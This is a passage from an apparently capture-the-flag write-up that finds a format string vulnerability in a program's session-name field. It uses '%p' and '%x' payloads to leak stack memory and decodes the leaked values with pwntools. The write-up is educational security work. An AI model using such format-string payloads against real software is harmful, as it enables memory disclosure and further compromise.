 Spending a little time with the binaries was interesting to see how they worked, but ultimately, nothing useful came from it. I'm not sure if this was a red herring or if there was another vulnerability here.

### Back to your normal programming


The last functionality that we haven't looked at yet is the `Update Session Name` function:

```
ENTER COMMAND: 3
SELECTED: 3
ENTER NEW SESSION NAME: thebarbershopper 
--------------------------------------------------------------
SESSION: thebarbershopper

  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------
```

Interesting, can we replicate a string format vulnerability from the access code with the session name?

```
ENTER COMMAND: 3
SELECTED: 3
ENTER NEW SESSION NAME: %p.%p.%p.%p.%p.
--------------------------------------------------------------
SESSION: 0xbfcf89cc.0x104.0x252e7025.0x70252e70.0x2e70252e.

  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------
```

Why yes, yes we can. Let's dump a good portion of the stack and see what we have. We'll start by sending 70 `%x.` Note, we add the period at the end only to allow easier splitting of our resulting string. This allows for easier correlation between the individual format strings and their output.

```
ENTER COMMAND: SELECTED: 3
ENTER NEW SESSION NAME: --------------------------------------------------------------
SESSION: bf9a747c.104.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.ff0a2e78.b77a3c20.bf9a75cc.0.b77a3000.b77a3ac0.b77a4898.b75f7940.b76690b5.b77a3ac0.59.4e.59.b77a38a0.b77a3000.b77a3ac0.
\xff <z\xb7�u\x9a\xbf
  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------
```

We are looking at a lot of repeating values here. 

```python
>>> from pwn import *
>>> unhex('252e7825')[::-1]
'%x.%'
```
